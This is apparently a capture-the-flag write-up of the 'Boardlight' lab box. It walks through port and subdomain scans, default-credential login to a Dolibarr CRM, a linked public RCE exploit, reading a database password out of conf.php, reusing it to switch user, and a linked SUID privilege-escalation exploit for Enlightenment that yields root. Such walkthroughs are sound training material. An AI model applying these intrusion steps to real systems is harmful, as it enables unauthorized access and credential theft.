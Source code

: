 # Boardlight

<figure><img src="../../../.gitbook/assets/image (2).png" alt="" width="225"><figcaption></figcaption></figure>

## Enumeration

### Port Scan

```bash
PORT   STATE SERVICE REASON  VERSION                                                                                                                                                                               
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                                         
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)                                                                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnz
rR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsv
TRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=                                                                               
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)                                                                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=                                                 
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)                                                                                                                                                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg                                                                                                                                 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                        
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                                                
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Directory Scan

```bash
└─➜ ffuf -u http://board.htb/FUZZ -w /usr/share/wordlists/Discovery/Web-Content/common.txt -e .php                                                                                                             [1]

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 316ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 318ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 319ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.hta.php                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 322ms]
about.php               [Status: 200, Size: 9100, Words: 3084, Lines: 281, Duration: 334ms]
contact.php             [Status: 200, Size: 9426, Words: 3295, Lines: 295, Duration: 410ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 409ms]
do.php                  [Status: 200, Size: 9209, Words: 3173, Lines: 295, Duration: 408ms]
images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 385ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 408ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 409ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 408ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 407ms]
:: Progress: [9454/9454] :: Job [1/1] :: 103 req/sec :: Duration: [0:01:38] :: Errors: 0 ::

```

### Subdomain Scan

```bash
└─➜ ffuf -u http://board.htb/ -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.board.htb'  -fw 6243                                                                        [0] 
                                                                                                                                                                                                                   
        /'___\  /'___\           /'___\                                                                                                                                                                            
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                            
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                                           
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                           
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                                            
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6243
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1944ms]
:: Progress: [4989/4989] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:49] :: Errors: 0 ::

```

## Web Attack

Under subdomain we can see it's hosting dolibarr (v17.0.0). This version is vulnerable to RCE.

* You can login with default credentials (`admin:admin`) on (`crm.board.htb`)

### Resource

* https://github.com/advisories/GHSA-9wqr-5jp4-mjmh
*   https://www.swascan.com/security-advisory-dolibarr-17-0-0/

    * Alternative: https://www-swascan-com.translate.goog/it/security-advisory-dolibarr-17-0-0/?\_x\_tr\_sl=it&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=sc


* [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

## Shell www-data

After we exploit, we get a www-data shell

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The default config files are under `htdocs/conf/conf.php`

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

<<SNIP>>
```



## Shell - user

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa
su - larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can ssh into the box for proper tty shell.

## Shell root

<pre class="language-bash"><code class="lang-bash">larissa@boardlight:~$ find / -perm -4000 -ls 2>find / -perm -4000 -ls 2>/dev/null
<strong> 2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
</strong>  608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
    
    
    &#x3C;&#x3C;SNIP>>
</code></pre>

If we google about enlightenment, we see it's a WM for Xorg.

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00002 [0.00002] - Begin Startup
ESTART: 0.00121 [0.00119] - Signal Trap
ESTART: 0.00123 [0.00002] - Signal Trap Done
ESTART: 0.00277 [0.00154] - Eina Init
ESTART: 0.00496 [0.00219] - Eina Init Done
ESTART: 0.00500 [0.00004] - Determine Prefix
ESTART: 0.00693 [0.00193] - Determine Prefix Done
ESTART: 0.00696 [0.00003] - Environment Variables
ESTART: 0.00698 [0.00002] - Environment Variables Done
ESTART: 0.00699 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

After googling the version, we can find the exploit,\
[https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)



```bash
larissa@boardlight:/tmp/heap$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
